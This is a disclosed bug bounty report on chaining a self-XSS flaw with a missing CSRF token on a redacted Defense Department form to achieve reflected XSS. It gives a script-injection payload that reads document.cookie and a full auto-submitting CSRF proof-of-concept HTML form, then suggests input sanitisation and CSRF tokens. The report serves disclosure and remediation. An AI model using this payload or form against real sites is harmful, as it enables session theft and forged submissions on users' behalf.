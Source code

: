 # Self XSS + CSRF Leads to Reflected XSS in https://████/ 

## Report Details
- **Report ID**: 1109544
- **URL**: https://hackerone.com/reports/1109544
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-23T13:29:56.467Z
- **Disclosed**: 2021-03-24T20:50:49.857Z

## Reporter
- **Username**: sleepnotf0und
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Security Team,
The form inputs in https://███/ Vulnerable to Self XSS 
Either the form was vulnerable to CSRF 

When these two bugs available and attacker could combine them to Perform a Reflected XSS Attack

## Impact

Reflected XSS
Execute JS Code in behave of a user

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Visit https://███████/
2 - type the payload in the "First Name" input ```test";</script><script>alert(document.cookie)</script>```
3 - Fill all input then submit the form 
4 - Notice the XSS popup
5 - Exploit the CSRF to Perform Reflected XSS attack by this Code:-
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://██████████/" method="POST">
      <input type="hidden" name="title" value="es" />
      <input type="hidden" name="first&#95;name" value="test";</script><script>alert(document.cookie)</script>" />
      <input type="hidden" name="middle&#95;name" value="test" />
      <input type="hidden" name="last&#95;name" value="test" />
      <input type="hidden" name="suffix" value="II" />
      <input type="hidden" name="sex" value="M" />
      <input type="hidden" name="██████&#95;█████" value="█████" />
      <input type="hidden" name="████████&#95;███████&#95;number" value="21365" />
      <input type="hidden" name="address&#95;1" value="test" />
      <input type="hidden" name="address&#95;2" value="test" />
      <input type="hidden" name="city" value="test" />
      <input type="hidden" name="state" value="ID" />
      <input type="hidden" name="zip&#95;code" value="53228" />
      <input type="hidden" name="country&#95;code" value="" />
      <input type="hidden" name="completion&#95;date" value="2&#47;23&#47;2021" />
      <input type="hidden" name="comments" value="test" />
      <input type="hidden" name="mail&#95;to&#95;first&#95;name" value="test&quot;&#59;&lt;&#47;script&gt;&lt;script&gt;alert&#40;&quot;HACKED&#32;BY&#32;Sleep&#32;NOt&#32;Found&quot;&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="mail&#95;to&#95;middle&#95;name" value="test" />
      <input type="hidden" name="mail&#95;to&#95;last&#95;name" value="test" />
      <input type="hidden" name="mail&#95;to&#95;suffix" value="II" />
      <input type="hidden" name="mail&#95;to&#95;address&#95;1" value="test" />
      <input type="hidden" name="mail&#95;to&#95;address&#95;2" value="test" />
      <input type="hidden" name="mail&#95;to&#95;city" value="test" />
      <input type="hidden" name="mail&#95;to&#95;state" value="ID" />
      <input type="hidden" name="mail&#95;to&#95;zip&#95;code" value="53228" />
      <input type="hidden" name="mail&#95;to&#95;country&#95;code" value="" />
      <input type="hidden" name="mail&#95;to&#95;email" value="lind&#46;regan4046&#64;yousmail&#46;com" />
      <input type="hidden" name="multiple&#95;submissions" value="true" />
      <input type="hidden" name="uniqueFormId" value="8567588" />
      <input type="hidden" name="action" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

## Suggested Mitigation/Remediation Actions
The input Should be sanitized
The Form should be Protected with a CSRF Token



## Attachments
No attachments
